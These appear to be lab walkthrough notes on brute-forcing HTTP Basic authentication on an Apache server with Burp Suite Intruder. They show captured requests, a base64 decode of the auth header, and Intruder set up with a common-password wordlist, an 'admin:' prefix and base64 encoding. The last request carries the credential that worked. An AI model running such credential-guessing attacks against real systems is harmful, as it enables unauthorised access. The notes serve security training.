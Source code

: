 ```http
<h1>Unauthorized</h1>
<p>This server could not verify that you
are authorized to access the document
requested.  Either you supplied the wrong
credentials (e.g., bad password), or your
browser doesn't understand how to supply
the credentials required.</p>
<hr>
<address>Apache/2.4.7 (Ubuntu) Server at 192.76.240.3 Port 80</address>
</body></html>
```

`burpsuite` > `Proxy`

`HTTP Request`:
```http
GET /basic HTTP/1.1
Host: 192.76.240.3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=freol24712nvgt9hf2lg42m5p2
Upgrade-Insecure-Requests: 1
Authorization: Basic dGVzdDp0ZXN0 📌
```

`echo -n 'dGVzdDp0ZXN0' | base64 -d`:
```
test:test
```

`burpsuite` > `Intruder` > `Payloads` = `Payload Options: Load: /root/Desktop/wordlists/100-common-passwords.txt` = `Payload Processing: Add: Add Prefix: admin:` = `Payload Processing: Add: Base64-encode`> `Start attack`

`HTTP Request`:
```http
GET /basic HTTP/1.1
Host: 192.76.240.3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=freol24712nvgt9hf2lg42m5p2
Upgrade-Insecure-Requests: 1
Authorization: Basic §password§
```
`HTTP Request`:
```http
GET /basic HTTP/1.1
Host: 192.76.240.3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=freol24712nvgt9hf2lg42m5p2
Upgrade-Insecure-Requests: 1
Authorization: Basic YWRtaW46Y29va2llMQ%3d%3d 📌
```
`HTTP Response`:
```http
HTTP/1.1 301 Moved Permanently 📌
Date: Wed, 27 Nov 2024 13:15:23 GMT
```